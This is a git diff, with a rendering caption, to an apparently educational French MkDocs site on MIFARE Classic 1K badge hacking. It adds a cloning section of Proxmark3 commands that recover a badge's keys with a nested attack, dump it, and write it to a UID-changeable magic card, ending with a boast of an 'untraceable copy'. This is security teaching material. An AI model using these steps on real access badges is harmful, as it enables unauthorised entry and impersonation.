

Before and after one commit to jurocknsail/yncrea-rfid, an MkDocs documentation site: the page built from docs/06_mifare-classic-1k-hacking.md, in a window 1280 px wide and 900 px high, scrolled down 9092 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 9785 px from its top, so only the background shows below that; grey boxes are pictures that could not be loaded.

Commit message:
white hat

````diff
--- a/docs/06_mifare-classic-1k-hacking.md
+++ b/docs/06_mifare-classic-1k-hacking.md
@@ -299,6 +299,27 @@ Résultat en 2 jours garantis avec les rainbow tables et le firmware adaptés ..
     Vous pouvez chercher personnellement dans la direction du firmware `proxbrute` ;)
 
 
+### Clonage
+
+Sur le badge a cloner :
+
+```bash linenums="1"
+[usb] pm3 --> hf mf nested 1 0 A FFFFFFFFFFFF d
+[usb] pm3 --> hf mf dump
+```
+
+Sur un badge avec Chinese Backdoor (Pour pouvoir modifier l'UID) :
+
+```bash linenums="1"
+[usb] pm3 --> hf mf restore 1 <ID du badge source>
+```
+
+!!! tip
+    La modif de l'UID est faite automatiquement avec le firmware iceman ... sinon il suffit de faire `hf mf csetuid <ID du badge source>`
+
+!!! success
+    Nous avons hacké notre badge et toutes ses clés, puis dupliqué celui-ci en une copie intraçable :)
+
 ---
 
 ## Conclusion
````
